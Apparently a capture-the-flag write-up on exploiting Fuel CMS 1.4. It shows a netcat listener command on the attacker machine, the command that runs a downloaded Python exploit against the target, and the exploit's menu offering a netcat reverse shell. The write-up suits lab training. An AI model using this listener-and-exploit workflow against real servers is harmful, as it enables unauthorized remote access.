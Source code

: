 ![image](https://github.com/user-attachments/assets/17fc5d2e-4c29-4755-85f1-63e700cefb3f)

<br>

![image](https://github.com/user-attachments/assets/113a9ee3-f4d4-42d9-8a36-000a88ca564e)

<br>

![image](https://github.com/user-attachments/assets/3b90d495-b60d-49d3-9e4d-916e04963e66)

<br>

![image](https://github.com/user-attachments/assets/16563e2d-546a-47ac-8ac2-937f08f6f6bb)

<br>

![image](https://github.com/user-attachments/assets/2d87ae8c-ba80-4e9a-ada0-bdf5ad637ea7)

<br>

![image](https://github.com/user-attachments/assets/aa1d57bc-7805-49e3-8226-5047dd515667)

<br>
<p>I did not continue using the file I downloaded from Exploit DB because it was presenting an error.</p>
<p>Proceeded copying the following:  <a href="https://gist.github.com/anir0y/8529960c18e212948b0e40ed1fb18d6d#file-fuel-cms-py">Vulnerability Capstone</a><br><br>
I set a listener.</p><br>

<pre><code>$ root@[Attack_IP]:~# nc -lvnp [Port]
</code></pre>
<br>

<p>Then I run the exploit with <code>python</code> against the <code>Target Machine</code>.</p>

<pre><code>$ python3 fuel-cms.py [Target_IP]
 ______         _ _____ ___  ___ _____ 
|  ___|        | /  __ \|  \/  |/  ___|
| |_ _   _  ___| | /  \/| .  . |\ `--. 
|  _| | | |/ _ \ | |    | |\/| | `--. \
| | | |_| |  __/ | \__/\| |  | |/\__/ /
\_|  \__,_|\___|_|\____/\_|  |_/\____/ 

Tested on 1.4                                       

Created by Ac1d

	Menu

exit     -	Exit app
shell_me -	Get a reverse shell (netcat) 
help     -	Show this help
